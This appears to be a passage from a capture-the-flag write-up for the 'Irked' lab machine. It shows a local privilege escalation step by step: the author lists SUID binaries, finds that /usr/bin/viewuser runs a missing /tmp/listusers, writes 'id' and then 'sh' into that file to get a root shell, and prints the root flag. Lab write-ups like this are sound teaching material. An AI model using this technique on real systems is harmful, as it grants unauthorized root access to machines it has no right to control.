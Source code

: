-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 34208 Jan 21  2016 /bin/fusermount
-rwsr-xr-x 1 root root 161584 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26344 Mar 29  2015 /bin/umount
```

**/usr/bin/viewuser** looks intresting. Let's see what it does:

```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-20 14:21 (:0)
djmardov pts/1        2020-09-20 14:59 (10.10.14.27)
sh: 1: /tmp/listusers: not found
```

So **sh** is trying to run **/tmp/listusers**, but it can't because listusers is not found, let's create one and put in it the command **id**.

```
djmardov@irked:~/Documents$ echo "id" > /tmp/listusers
djmardov@irked:~/Documents$ chmod +x /tmp/listusers
```

Now let's run **/usr/bin/viewuser** again:
```
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-20 14:21 (:0)
djmardov pts/1        2020-09-20 14:59 (10.10.14.27)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

As we can see we are root, let's now drop a shell as root:

```
djmardov@irked:~/Documents$ echo sh > /tmp/listusers 
djmardov@irked:~/Documents$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2020-09-20 14:21 (:0)
djmardov pts/1        2020-09-20 14:59 (10.10.14.27)
# id
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
```

We have a root shell now, get the root flag:

```
# cat root.txt
8d8e9e8be64654b6dccc3bff4522daf3
```

# Advance
```